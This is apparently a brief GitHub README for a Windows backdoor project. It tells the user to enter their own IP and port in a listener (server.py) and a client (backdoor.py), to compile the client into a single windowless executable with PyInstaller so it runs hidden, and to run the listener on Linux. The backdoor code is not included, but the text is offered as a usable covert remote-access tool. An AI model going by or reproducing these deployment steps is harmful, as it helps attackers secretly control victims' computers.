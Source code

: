 # backdoor_for_windows
-You'll need linux and windows machine to do this

Edit server.py for your own ip and port number on "sock.bind(your_ip,your_port)"
Edit backdoor.py for your own ip and port number on "s.connect(your_ip,your_port)"

create .exe file out of backdoor.py using windows machine(python installed) and using pyinstaller "pyinstaller backdoor.py --onefile --noconsole" 

server.py has to work on linux "python3 server.py"

